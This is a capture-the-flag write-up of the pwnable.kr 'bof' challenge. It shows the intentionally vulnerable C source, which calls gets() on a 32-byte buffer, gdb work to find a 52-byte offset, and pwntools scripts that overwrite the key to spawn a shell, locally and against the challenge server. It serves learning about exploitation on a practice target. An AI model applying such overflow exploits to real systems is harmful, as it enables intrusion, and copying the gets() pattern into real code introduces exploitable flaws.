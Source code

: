 # bof

![](<../../.gitbook/assets/image (113) (1).png>)

Contents of bof.c:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Here is the output when I try to buffer overflow the binary:

![](<../../.gitbook/assets/image (1) (2) (1).png>)

There is some protections against overflowing the buffer. I checked what security properties the code had using **checksec**:

![](<../../.gitbook/assets/image (3) (2) (1).png>)

I think the main thing to focus on here is the Stack Canary. Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immediately \[[source](https://ctf101.org/binary-exploitation/stack-canaries/)]. I kept reading the previous source and it seemed that there were a couple ways to bypass the stack protection: leaking the address and brute-forcing the canary. Reading [https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/canaries.md](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/canaries.md), I found out that I would have to find out what the offset of the stack canary is from the input. I later learned that I was just looking for the distance between input and the key (0xdeadbeef). I ran gdb with the pwndebug add-on and found this after I broke at main:&#x20;

![](<../../.gitbook/assets/image (2) (1) (3).png>)

There are canaries on the stack. In order for me to find the offset, I will try to enter a string and see how far it is until the 0xdeadbeef (our key) value. At this point, I was actually stuck and looked online at some write-ups to see if there was one that would actually teach me what I need to know to not only find the stack canary offset, but to exploit it as well. Either that, or to help with exploiting the buffer overflow vulnerability overall. The solutions that helped me learn how to solve this was: [https://jaimelightfoot.com/blog/pwnable-kr-bof-walkthrough/](https://jaimelightfoot.com/blog/pwnable-kr-bof-walkthrough/) and [https://zacheller.dev/pwnable-bof](https://zacheller.dev/pwnable-bof). I will try to replicate their steps best here.&#x20;

In the code, I first made a break-point at the main function. This was to get an updated list of memory locations (since this would be different than if the code was NOT running). I then made another break-point at line where the comparison was being made  `0x56555654 <func+40> cmp dword ptr [ebp + 8], 0xcafebabe`. Here, I looked at the register table that pwndebug provides:

![](<../../.gitbook/assets/image (112) (1).png>)

My input of `AAAA` was being placed in eax AND esp at the same time. In order to find out how far this was from 0xdeadbeef, I printed a bit around both the esp and eax registers:

![](<../../.gitbook/assets/image (111) (1).png>)

If we look at both of the registers where the data is stored, my input is 13 "chunks" away from 0xdeadbeef. Each "chunk" is 4 characters long, so 13\*4 = 52. This means the distance from our input to 0xdeadbeef is 52 characters long. Now we can start building the exploit. I will be using pwntools to do this to get a better understanding of pwntools and how to code using it.

```
#!/usr/bin/env python3
from pwn import *

p = process("./bof")

#to format in endian (little)
key = p32(0xcafebabe) #https://docs.pwntools.com/en/stable/util/packing.html

exploit = b'A' * 52 + key #52 for the characters to get to 0xdeadbeef | key to replace overfl>

print(exploit) #for the user to see the exploit

p.sendline(exploit)

p.interactive()
```

Output:

![](<../../.gitbook/assets/image (7) (3) (1).png>)

As shown in the image, I did have a local shell, which is what we are hoping to accomplish on the remote server as well. I will modify my script to reflect the remote server.

```
#!/usr/bin/env python3
from pwn import *

URL = 'pwnable.kr'
PORT = 9000

key = p32(0xcafebabe) # https://docs.pwntools.com/en/stable/util/packing.html

exploit = b'A' * 52 + key #52 for the characters to get to 0xdeadbeef | key to replace overflow and replace the value

shell = remote(URL,PORT)
shell.send(exploit)
shell.interactive()
```

Output:

![](<../../.gitbook/assets/image (3) (1) (2).png>)
